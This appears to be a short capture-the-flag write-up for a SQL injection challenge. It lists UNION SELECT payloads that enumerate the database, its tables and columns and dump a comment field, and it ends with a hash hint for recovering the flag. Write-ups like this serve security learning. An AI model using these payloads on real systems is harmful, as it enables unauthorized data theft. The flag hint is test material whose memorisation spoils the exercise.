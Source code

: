 - Same as the first SQL injection.
- 5 UNION SELECT database(), 2 -- - 
- 5 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema = database() -- - 
- 5 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name = 0x6c6973745f696d61676573 -- - -
- 5 UNION SELECT comment, 2 FROM list_images -- - 
- Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46